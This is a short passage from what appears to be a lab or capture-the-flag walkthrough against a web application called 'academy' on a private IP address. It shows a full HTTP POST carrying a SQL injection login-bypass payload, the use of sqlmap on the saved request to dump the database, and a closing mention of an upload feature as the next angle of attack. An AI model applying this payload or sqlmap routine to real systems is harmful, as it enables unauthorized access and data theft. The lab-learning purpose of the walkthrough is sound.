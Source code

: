 let's start with `burbsuite` to intercept request
then I use the basic SQL injection to check

```
POST /academy/ HTTP/1.1
Host: 192.168.1.111
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://192.168.1.111/academy/
Content-Type: application/x-www-form-urlencoded
Content-Length: 44
Origin: http://192.168.1.111
DNT: 1
Connection: close
Cookie: PHPSESSID=n04v4rs05h4r6g3c0pro3mm8n6
Upgrade-Insecure-Requests: 1

regno=%27+OR+1+%3D+1+--+-&password=a&submit=
```

so I don't waste the time to manually sql injection I use sqlmap
`sqlmap -r request.txt` it seem perfect to dump all data

for the time being I try to find another shorter way to attack it

I found that this CMS allow user upload photo file
